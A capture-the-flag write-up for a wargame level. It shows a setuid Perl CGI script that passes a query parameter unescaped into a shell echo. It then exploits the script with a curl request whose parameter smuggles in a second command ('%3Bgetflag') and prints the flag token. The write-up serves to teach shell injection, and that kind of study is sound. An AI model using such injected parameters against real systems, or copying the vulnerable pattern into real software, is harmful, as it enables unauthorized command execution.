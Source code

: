 # Level 04

## Resolution

As `level04` if we run `ls` we see that a `level04.pl` script is present in the home directory.

```pl
  $> cat level04.pl

  #!/usr/bin/perl
  # localhost:4747
  use CGI qw{param};
  print "Content-type: text/html\n\n";
  sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
  }
  x(param("x"));
```

> This script is running on `<VM-IP>`<sup>1</sup>`:4747` and prints the value of query parameter `x`.

If we look for more details about this script with `ls -l level04.pl`...

```shell
  $> ls -l level04.pl
  total 4
  -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Like the previous level, this script is executed as `flag04` so it has access to `getflag`, all we need to do is escaping `echo` and call it.

```shell
  $> curl localhost:4747?x=%3Bgetflag
  Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

> The sequence `%3B` is equivalent to `;` to encode it safely in URL query.

So, `ne2searoevaevoem4ov4ar8ap` is the flag for this level.

## Resources

- [URL escaping](https://www.w3schools.com/tags/ref_urlencode.ASP)
- [Shell injection](https://matklad.github.io/2021/07/30/shell-injection.html)
